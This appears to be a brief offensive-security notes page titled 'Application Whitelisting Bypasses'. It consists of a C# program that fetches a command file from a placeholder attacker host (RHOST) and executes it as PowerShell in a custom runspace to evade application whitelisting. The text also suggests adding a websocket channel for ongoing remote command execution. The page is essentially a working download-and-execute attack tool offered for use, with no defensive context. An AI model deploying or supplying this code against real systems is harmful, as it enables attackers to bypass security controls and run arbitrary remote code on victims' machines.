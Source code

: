 # Application Whitelisting Bypasses
---

### PowerShell Runspace
This will allow you to execute the contents of a remote file in a PowerShell runspace. This could be improved by creating a websocket server/client to execute commands within the runspace. 
```cs
using System;
using System.Net;
using System.Management.Automation;
using System.Management.Automation.Runspaces;

namespace ConsoleApp3
{
    public class Program
    {
        public static void Main(string[] args)
        {
            WebClient client = new WebClient();
            var myString = client.DownloadString("http://RHOST/commands.txt");
            Console.WriteLine("Command to be executed: " + myString);
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();
            Pipeline pipeline = runspace.CreatePipeline();
            pipeline.Commands.AddScript(myString);
            pipeline.Commands.Add("Out-String");
            Collection<PSObject> results = pipeline.Invoke();
            runspace.Close();
            StringBuilder stringBuilder = new StringBuilder();
            foreach (PSObject obj in results)
            {
                Console.WriteLine(obj.ToString());
            }
        }
    }
}
```
